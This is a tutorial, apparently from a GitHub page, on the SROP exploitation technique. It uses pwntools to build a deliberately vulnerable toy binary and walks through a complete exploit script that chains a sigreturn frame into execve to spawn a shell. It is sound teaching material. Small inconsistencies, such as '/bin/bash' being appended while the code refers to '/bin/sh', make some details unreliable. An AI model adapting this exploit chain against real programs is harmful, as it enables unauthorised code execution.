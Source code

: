 # SROP (Sigreturn-Oriented Programming) Exploit Technique

The **SROP (Sigreturn-Oriented Programming)** technique is used to control the CPU registers using a **sigreturn** system call (`syscall 0xf`), allowing for greater control when traditional **ROP** gadgets aren't sufficient. This is particularly useful when dealing with situations where gadgets to directly pop registers (like `pop rdi; ret`) are unavailable.

SROP works by leveraging the **sigreturn** system call, which is used to return from signal handlers. The registers must be populated in a specific order on the stack for **sigreturn** to execute, and **SigreturnFrame** can help manage this order.

## Step-by-Step Explanation

### 1. Creating the Vulnerable Binary
The vulnerable binary is created using **pwntools**' `ELF.from_assembly()` function. In this case, the binary contains a **read syscall** followed by a **pop rax; ret** gadget.

```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

elf = ELF.from_assembly(
    '''
        mov rdi, 0;
        mov rsi, rsp;
        sub rsi, 8;
        mov rdx, 500;
        syscall;
        ret;
        
        pop rax;
        ret;
    ''', vma=0x41000
)
elf.save('vuln')
```

### 2. Adding "/bin/bash" to the Binary
You can then add the `/bin/bash` string to the binary:

```bash
echo -en "/bin/bash\x00" >> vuln
```

### 3. Gadget Locations and Exploitation
Now, let's identify the locations of the **gadgets** and **/bin/sh** string within the binary.

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250  # Location of /bin/sh
POP_RAX = 0x41018  # Gadget to pop rax
SYSCALL_RET = 0x41015  # Gadget to return to syscall
```

### 4. Triggering the Sigreturn
To use **sigreturn**, you need to set the **RAX** register to `0xf` (the syscall number for sigreturn) and then call the **syscall** instruction.

```python
payload = b'A' * 8  # Padding to overflow RIP
payload += p64(POP_RAX)  # Set RAX to 0xf (sigreturn)
payload += p64(0xf)  # Syscall number for sigreturn
payload += p64(SYSCALL_RET)  # Return to syscall
```

### 5. Creating the Sigreturn Frame
To fill the registers in the correct order, we use **SigreturnFrame**, a utility provided by **pwntools** that arranges the registers for **sigreturn**. Here, we configure the registers for an **execve** syscall.

```python
frame = SigreturnFrame()
frame.rax = 0x3b  # Syscall number for execve
frame.rdi = BINSH  # Pointer to /bin/sh
frame.rsi = 0x0  # NULL (no arguments)
frame.rdx = 0x0  # NULL (no environment)
frame.rip = SYSCALL_RET  # Point to the syscall gadget
```

### 6. Final Exploit
We now combine everything into the final payload and send it to the process. The **SigreturnFrame** ensures the registers are in the correct order for **execve** to execute and spawn a shell.

```python
payload = b'A' * 8  # Padding to overflow RIP
payload += p64(POP_RAX)  # Set RAX to 0xf (sigreturn)
payload += p64(0xf)  # Syscall number for sigreturn
payload += p64(SYSCALL_RET)  # Return to syscall
payload += bytes(frame)  # Add the sigreturn frame with register values

p.sendline(payload)
p.interactive()  # Get interactive shell
```

### 7. Explanation of Final Payload
- **Padding (`'A' * 8`)**: This is used to overwrite the return address in the stack.
- **POP_RAX**: This gadget sets **RAX** to `0xf`, which corresponds to the **sigreturn** syscall.
- **SYSCALL_RET**: This gadget triggers the actual syscall to initiate the sigreturn.
- **SigreturnFrame**: This is the frame that holds the registers for the **execve** syscall. It includes:
  - **RAX** set to `0x3b` (syscall number for `execve`).
  - **RDI** set to the address of **/bin/sh**.
  - **RSI and RDX** set to `0`, as **execve** requires these values to be `NULL`.
  - **RIP** set to the address of the **SYSCALL_RET** gadget to ensure the syscall executes.

### Conclusion
This exploit leverages **SROP** to bypass the need for traditional gadgets like `pop rdi`, `pop rsi`, and `pop rdx`, instead using **sigreturn** to control the registers and trigger the **execve** syscall. By controlling the state of the machine via **sigreturn**, we can perform powerful exploits even when there are limited gadgets available.

